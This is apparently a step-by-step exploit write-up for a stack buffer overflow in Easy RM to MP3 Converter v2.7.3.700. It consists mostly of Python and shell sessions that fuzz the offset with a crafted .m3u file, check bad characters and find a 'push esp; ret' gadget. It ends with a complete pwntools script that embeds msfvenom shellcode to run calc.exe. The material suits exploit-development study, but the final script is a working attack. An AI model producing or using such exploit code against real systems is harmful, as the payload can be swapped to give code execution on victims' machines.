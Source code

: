 # Easy RM to MP3 Converter v2.7.3.700

```py
In [1]: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'A' * 30000)
   ...:
```

![Image 1](img/easy-rm-to-mp3-converter-1.png)

![Image 2](img/easy-rm-to-mp3-converter-2.png)

```py
In [2]: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(cyclic(30000))
   ...:
```

![Image 3](img/easy-rm-to-mp3-converter-3.png)

![Image 4](img/easy-rm-to-mp3-converter-4.png)

```py
In [3]: cyclic_find(0x77636b61)
Out[3]: 26085
```

```py
In [4]: chars = bytes([i for i in range(1, 256) if i not in [0x00]])
   ...: 
   ...: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'A'*26085 + b'BBBB' + chars)
   ...:
```

![Image 5](img/easy-rm-to-mp3-converter-5.png)

```py
In [6]: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x09, 0x0a]])
   ...: 
   ...: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'A'*26085 + b'BBBB' + chars)
   ...:
```

![Image 6](img/easy-rm-to-mp3-converter-6.png)

```
$ ropper -f ./MSRMfilter03.dll --search 'push esp; ret' -I 0x10000000
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: push esp; ret

[INFO] File: ./MSRMfilter03.dll
0x10007798: push esp; ret 1; 
0x1001b058: push esp; ret;
```

```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 26085

# 0x1001b058: push esp; ret;
ret = p32(0x1001b058)

nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00\x09\x0a' -f py CMD=calc.exe
buf =  b""
buf += b"\xbb\xc4\x6d\xe6\xc8\xda\xc8\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x58\x13\x83\xe8\xfc\x03\x58\xcb\x8f"
buf += b"\x13\x34\x3b\xcd\xdc\xc5\xbb\xb2\x55\x20\x8a\xf2\x02"
buf += b"\x20\xbc\xc2\x41\x64\x30\xa8\x04\x9d\xc3\xdc\x80\x92"
buf += b"\x64\x6a\xf7\x9d\x75\xc7\xcb\xbc\xf5\x1a\x18\x1f\xc4"
buf += b"\xd4\x6d\x5e\x01\x08\x9f\x32\xda\x46\x32\xa3\x6f\x12"
buf += b"\x8f\x48\x23\xb2\x97\xad\xf3\xb5\xb6\x63\x88\xef\x18"
buf += b"\x85\x5d\x84\x10\x9d\x82\xa1\xeb\x16\x70\x5d\xea\xfe"
buf += b"\x49\x9e\x41\x3f\x66\x6d\x9b\x07\x40\x8e\xee\x71\xb3"
buf += b"\x33\xe9\x45\xce\xef\x7c\x5e\x68\x7b\x26\xba\x89\xa8"
buf += b"\xb1\x49\x85\x05\xb5\x16\x89\x98\x1a\x2d\xb5\x11\x9d"
buf += b"\xe2\x3c\x61\xba\x26\x65\x31\xa3\x7f\xc3\x94\xdc\x60"
buf += b"\xac\x49\x79\xea\x40\x9d\xf0\xb1\x0e\x60\x86\xcf\x7c"
buf += b"\x62\x98\xcf\xd0\x0b\xa9\x44\xbf\x4c\x36\x8f\x84\xa3"
buf += b"\x7c\x92\xac\x2b\xd9\x46\xed\x31\xda\xbc\x31\x4c\x59"
buf += b"\x35\xc9\xab\x41\x3c\xcc\xf0\xc5\xac\xbc\x69\xa0\xd2"
buf += b"\x13\x89\xe1\xb0\xf2\x19\x69\x19\x91\x99\x08\x65"

with open('evil.m3u', 'wb') as fp:
    fp.write(pad + ret + nop + buf)
```

```
$ ./exploit.py
```

![Image 7](img/easy-rm-to-mp3-converter-7.png)

